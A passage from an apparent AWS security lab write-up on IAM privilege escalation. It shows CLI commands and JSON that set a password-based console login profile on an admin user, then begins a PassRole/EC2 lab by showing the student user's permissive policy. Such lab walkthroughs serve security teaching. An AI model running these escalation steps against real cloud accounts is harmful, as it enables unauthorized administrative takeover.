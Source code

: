 With this, a new login profile can be used on any user on the account. Therefore, a skeleton is created using the following command &rarr;

```bash
awsn iam create-login-profile --generate-cli-skeleton > create-login-profile.json
```

This creates a skeleton json file which can be edited as follows &rarr;

```json
{
    "UserName": "AdminBob",
    "Password": "Root00--123@",
    "PasswordResetRequired": false
}
```

Then, the new login profile can be created using the following command &rarr;

```bash
awsn iam create-login-profile --cli-input-json file://create-login-profile.json
```

This gives console access to the `AdminBob` user and therefore grants administrative privileges and solves the lab.

---

## Pass Role EC2

The lab provides an IAM user `student` within an AWS account with the objective of gaining administrative access on the account.

[lab.log](https://res.craft.do/user/full/67fb9814-2878-40e9-e112-5e5c41753a81/D04B330A-1F3A-4BBD-A585-AC95F9A5C7D8_2/WB53JG6HqB1HjcvliJIflohLqrb11FNlMMC9zHQuFhYz/lab.log)

The `student` user has the following policy &rarr;

```json
{
  "PolicyName": "ConfigureEC2Role",
  "PolicyDocument": {
    "Version": "2012-10-17",
    "Statement": [
      {
        "Effect": "Allow",
        "Action": [
          "iam:PassRole",
          "ec2:RunInstances",
          "ec2:Describe*",
          "ec2:TerminateInstances",
          "ssm:*"
        ],
        "Resource": "*"
      }
    ]
  }
}
```
